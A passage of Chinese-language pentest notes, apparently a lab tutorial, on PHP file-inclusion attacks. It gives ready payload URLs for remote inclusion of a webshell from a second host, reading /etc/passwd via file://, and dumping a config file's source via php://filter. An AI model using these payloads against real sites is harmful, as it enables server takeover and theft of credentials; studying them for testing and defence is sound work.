 - 不需要猜对方路径，构造webshell直接getshell

**前提条件**

- 前提是能找到这个漏洞~

**文件包含getshell**

- 远程webshell文件如下
  ![](./../../img/file_include/2022-05-28-14-49-00.png)

<p>


- 远程文件包含getshell

-     http://192.168.10.77/include.php/?file=http://192.168.10.52/xxx.xxx

    ![](./../../img/file_include/2022-05-28-14-50-13.png)
    ![](./../../img/file_include/2022-05-28-14-52-59.png)

## file协议文件包含

**利用**

- file://+绝对路径：访问系统本地文件

**前提条件**

- 读取的目标必须知道目标文件绝对路径

**文件读取**

- file协议文件读取

<p>


-     http://192.168.10.77/include.php/?file=file:///etc/passwd

    ![](./../../img/file_include/2022-05-28-15-05-44.png)

## php://filter协议文件包含

**利用**

- php配置文件直接文件包含php文件读取时会被自动解析，我们可以通过php://filter协议获取文件源码

**前提条件**

- 没有特殊限制，前提是能找到这个漏洞~    

**文件读取**

- php://filter协议获取文件base64编码

<p>


-     http://192.168.10.77/include.php/?file=php://filter/read=convert.base64-encode/resource=./config/config.inc.php
